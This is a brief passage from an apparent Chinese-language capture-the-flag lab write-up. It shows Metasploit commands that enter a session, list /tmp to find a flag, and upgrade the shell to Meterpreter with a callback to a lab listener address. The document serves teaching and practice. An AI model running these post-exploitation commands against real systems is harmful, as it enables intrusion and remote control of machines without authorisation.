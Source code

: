 # 进入会话
```
sessions -i 1
id
```
# 获取 flag-1
```
ls /tmp
```
![](./picturn/flag1.png)
# 建立立足点并发现靶标2-4
会话升级
```
search meterpreter type:post
use post/multi/manage/shell_to_meterpreter
set lhost 192.168.56.214
set session 1
run -j
```